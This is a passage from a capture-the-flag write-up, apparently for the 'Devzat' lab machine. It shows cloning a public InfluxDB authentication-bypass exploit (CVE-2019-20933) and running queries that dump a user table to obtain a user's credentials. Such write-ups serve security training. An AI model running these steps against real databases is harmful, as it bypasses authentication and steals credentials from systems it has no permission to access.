 ```bash
# --> You need to provide the correct password to use this function
```

<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_55.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_56.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

If I search for some exploit for **InfluxDB**, **"InfluxDB 1.7.5 exploit github"**, I find a repository that allows to bypass authentication, **[ InfluxDB-Exploit-CVE-2019-20933](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933){:target="_blank"}**. I clone the repository and check that it is vulnerable and I can find the commands I need to enumerate the Database in **[8086 - Pentesting InfluxDB](https://book.hacktricks.xyz/network-services-pentesting/8086-pentesting-influxdb){:target="_blank"}**. After searching for a while, I find the credentials of the user **catherine**, which also appeared in the `passwd` file.

```bash
git clone https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933

python __main__.py
  > 1
  > show databases
  > show measurements
  > show field keys
  > select * from user
  > select * from 'user'
  > select * from  FROM "user"
```

<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_57.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_58.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_59.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_60.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_61.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_62.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>
